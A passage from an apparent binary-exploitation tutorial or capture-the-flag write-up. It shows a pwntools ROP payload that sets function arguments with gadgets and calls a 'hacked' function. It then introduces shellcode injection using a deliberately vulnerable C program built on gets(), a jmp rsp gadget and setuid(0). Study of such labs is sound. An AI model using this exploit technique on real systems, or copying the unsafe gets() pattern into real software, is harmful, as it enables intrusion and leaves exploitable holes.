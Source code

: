 ```python
# POP RSI; POP R15 gadget found with ropper
pop_rsi_r15 = 0x401249

# Build the payload
payload = flat({
    offset: [
        pop_rdi,  # Pop the next value to RDI
        0xdeadbeefdeadbeef,
        pop_rsi_r15,  # Pop the next value to RSI (and junk into R15)
        0xc0debabec0debabe,
        0x0,
        # With params in correct registers, call hacked function
        elf.functions.hacked
    ]
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b':', payload)

# Get flag
io.interactive()
```

## shellc0de in the fall0ut
A buffer overflow can allow us to inject our own code and make it execute incase we do not find any interesting function to jump to or variables to overwrite. We will use the code below to demonstrate the injection process.

```c
#include <stdio.h>

int jumper() {
    asm("jmp %rsp");
}

void fallout(){
    char buffer[64];

    puts("Welcome to the fallout");
    gets(buffer);
}

int main(){
    setuid(0);
    setgid(0);
    fallout();
    return 0;
}
```
